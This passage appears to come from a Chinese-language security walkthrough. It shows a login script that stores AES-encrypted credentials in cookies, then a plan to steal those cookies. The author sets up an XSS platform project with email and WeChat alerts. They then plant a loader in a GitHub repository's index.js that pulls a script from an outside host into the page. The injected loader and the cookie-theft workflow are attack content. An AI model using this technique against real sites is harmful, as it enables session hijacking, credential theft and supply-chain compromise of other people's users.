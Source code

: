 ```
    <script>        // 处理登录表单提交事件        document.getElementById("loginForm").addEventListener("submit", function (event) {            event.preventDefault(); // 阻止表单提交            // 获取用户名和密码            const username = document.getElementById("username").value;            const password = document.getElementById("password").value;            // 加密用户名和密码（使用CryptoJS的AES加密示例）            const encryptionKey = "yourEncryptionKey"; // 替换为您的加密密钥            const encryptedUsername = CryptoJS.AES.encrypt(username, encryptionKey).toString();            const encryptedPassword = CryptoJS.AES.encrypt(password, encryptionKey).toString();            // 设置Cookie的过期时间（7天）            const expirationDate = new Date();            expirationDate.setDate(expirationDate.getDate() + 7);            // 创建Cookie字符串            const cookieString = `username=${encodeURIComponent(encryptedUsername)}; password=${encodeURIComponent(encryptedPassword)}; expires=${expirationDate.toUTCString()}; path=/`;            // 将Cookie写入浏览器            document.cookie = cookieString;            // 重定向到其他页面（此处示例为成功登录后的页面）            window.location.href = "dashboard.html"; // 替换为实际的目标页面        });        /*省略其他代码，包括Cookie校验*/    </script>
</body>
</html>


```  
  
代码解释：  
- 代码包括一个基本的HTML表单，用于输入用户名和密码。  
  
- 在表单提交时，通过CryptoJS库对用户名和密码进行了加密。  
  
- Cookie的过期时间设置为7天，一周之后Cookie删除。  
  
- 最后，代码将用户重定向到登录成功后的管理页面（dashboard.html），  
  
注意的是，这个页面Cookie检验很简单，就是将Cookie发送到服务器检查Cookie是否在有限期内或Cookie是否正确。现在我们没有账号密码，就只能通过cdn插入XSS脚本获取Cookie和其他敏感信息。  
  
我们需要的Cookie形式：  
  
username=U2FsdGVkX19JWzJVQUFtYnNiRGVzdGluYXRpb25VbmlxdWUwOjBGRjVDMDcyMkIxNTQ1NTM4NzJBRkExRkE0MjM5MkZEOUE5N0I1OEMwNzUyNzY5Qzg2RDY2Njk0; password=U2FsdGVkX1+VQjUxVmlzaW9uMzIxYVd5eVpXMHpOVDAvR1lUcm9pMzdRVGhhSjZhR3owYUVCSmRURzZNdTFmU0NjMkFzUjNrWHFMRUV5d2I=; expires=Sat, 26 Nov 2023 00:00:00 GMT; path=/登录XSS平台，创建XSS项目，设置基本参数，选择email提醒和微信提醒  
  
![](https://mmbiz.qpic.cn/mmbiz_png/YmmVSe19Qj7E4CIgOu2zbds1k7yloD3R0By4IiaLibtph6Hia6t7ic8iaxYCpalGf8lvVd31465LVtuz29tFBBlCkNw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/YmmVSe19Qj7E4CIgOu2zbds1k7yloD3R2KLucCDrCDV3J33O3V1RkLzhB5ibFiakic87lRicUHDHKXe1ngOPy5lmOA/640?wx_fmt=png&from=appmsg "")  
然后我们将利用脚本写入github仓库里的index.js文件中，把脚本加载到页面  
```
// 创建一个新的script元素
var scriptElement = document.createElement('script');

// 设置script元素的src属性
scriptElement.src = "//xms.la/U5";

// 将script元素添加到页面的头部或其他需要的位置
document.head.appendChild(scriptElement);


```  
  